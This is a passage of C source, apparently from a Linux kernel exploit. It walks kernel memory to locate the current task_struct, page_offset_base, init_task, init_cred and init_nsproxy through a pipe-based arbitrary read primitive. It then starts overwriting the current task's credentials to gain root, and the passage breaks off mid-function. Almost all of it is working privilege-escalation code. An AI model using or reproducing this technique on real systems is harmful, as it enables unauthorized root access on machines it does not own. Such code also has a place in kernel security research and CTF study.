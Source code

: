 ```c
            && (comm_addr[-56] > 0xffff888000000000)) {  /* task->parent */

            /* task->read_parent */
            parent_task = comm_addr[-57];

            /* task_struct::ptraced */
            current_task = comm_addr[-50] - 2528;

            page_offset_base = (comm_addr[-50]&0xfffffffffffff000) - i * 0x1000;
            page_offset_base &= 0xfffffffff0000000;

            printf("\033[32m\033[1m[+] Found task_struct on page: \033[0m%p\n",
                   (struct page*) (vmemmap_base + i * 0x40));
            printf("\033[32m\033[1m[+] page_offset_base: \033[0m0x%lx\n",
                   page_offset_base);
            printf("\033[34m\033[1m[*] current task_struct's addr: \033[0m"
                   "0x%lx\n\n", current_task);
            break;
        }
    }
}

/**
 * @brief find the init_task and copy something to current task_struct
*/
void privilege_escalation_by_task_overwrite(void)
{
    /* finding the init_task, the final parent of every task */
    puts("[*] Seeking for init_task...");

    for (;;) {
        size_t ptask_page_addr = direct_map_addr_to_page_addr(parent_task);

        tsk_buf = (size_t*) ((size_t) buf + (parent_task & 0xfff));

        arbitrary_read_by_pipe((struct page*) ptask_page_addr, buf);
        arbitrary_read_by_pipe((struct page*) (ptask_page_addr+0x40),&buf[512]);

        /* task_struct::real_parent */
        if (parent_task == tsk_buf[309]) {
            break;
        }

        parent_task = tsk_buf[309];
    }

    init_task = parent_task;
    init_cred = tsk_buf[363];
    init_nsproxy = tsk_buf[377];

    printf("\033[32m\033[1m[+] Found init_task: \033[0m0x%lx\n", init_task);
    printf("\033[32m\033[1m[+] Found init_cred: \033[0m0x%lx\n", init_cred);
    printf("\033[32m\033[1m[+] Found init_nsproxy:\033[0m0x%lx\n",init_nsproxy);

    /* now, changing the current task_struct to get the full root :) */
    puts("[*] Escalating ROOT privilege now...");

    current_task_page = direct_map_addr_to_page_addr(current_task);

    arbitrary_read_by_pipe((struct page*) current_task_page, buf);
    arbitrary_read_by_pipe((struct page*) (current_task_page+0x40), &buf[512]);

    tsk_buf = (size_t*) ((size_t) buf + (current_task & 0xfff));
```